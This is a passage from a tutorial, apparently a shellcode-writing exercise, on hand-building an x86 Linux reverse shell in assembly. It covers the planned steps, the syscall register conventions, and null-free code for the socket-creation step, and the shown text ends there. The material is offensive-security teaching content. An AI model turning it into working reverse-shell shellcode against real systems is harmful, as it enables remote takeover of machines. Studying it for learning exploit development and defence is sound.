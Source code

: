 Most of this is a repeat of the Bind Shell so there will be a lot of the same details.

The steps are the same as mentioned above:
1. [Creating the socket](#creating-the-socket)
2. [Connect to an IP and port](#connect-to-an-ip-and-port)
3. [Redirect output](#redirect-output)
4. [Execute a shell](#execute-a-shell)
5. [Putting it all together](#putting-it-all-together)

A quick reminder of arguments and calls for assembly:
- EAX is used for the syscall number. As with a lot of calls, EAX will store the return value.
  * Syscall numbers can be found in /usr/include/i386-linux-gnu/asm/unistd_32.h
- EBX is used for the first argument to be passed
- ECX is used for the second argument to be passed
- EDX is used for the third argument to be passed
- ESI is used for the fourth argument to be passed
- EDI is used for the fifth argument to be passed
- Any structs can be made by using the stack and pointing to it's address

### Creating the socket

Sockets are handled through socketcall()\
http://man7.org/linux/man-pages/man2/socketcall.2.html
```c
int socketcall(int call, unsigned long *args);
```
The call ids can be found at:
```c 
cat /usr/include/linux/net.h | grep SYS_

#define SYS_SOCKET	 1		/* sys_socket(2)		*/
#define SYS_BIND	   2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	 4		/* sys_listen(2)		*/
#define SYS_ACCEPT	 5		/* sys_accept(2)		*/
``` 
Looking at our C code, we need to call socket(2, 1, 0);\
This will translate to:\
    EAX - 0x66 for socketcall\
    EBX - 1 fo socket\
    ECX - address on stack with args 2, 1 0\
```asm
; clear registers while avoiding nulls
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

; 0x66 for socketcall
mov al, 0x66
;0x1 for socket
mov bl, 0x1
```
Setting up ECX - our *args parameter - we can use the stack to push the values then make ecx the stack pointer so that we have the address for the args.  Note that when using the stack for args in this way, we have to push them in the reverse order due to the way the stack works (FILO).
```asm
; ecx = 0
push ecx
; ebx = 1
push ebx        
push 0x2

; point ecx to the stack for args
mov ecx, esp
int 0x80
```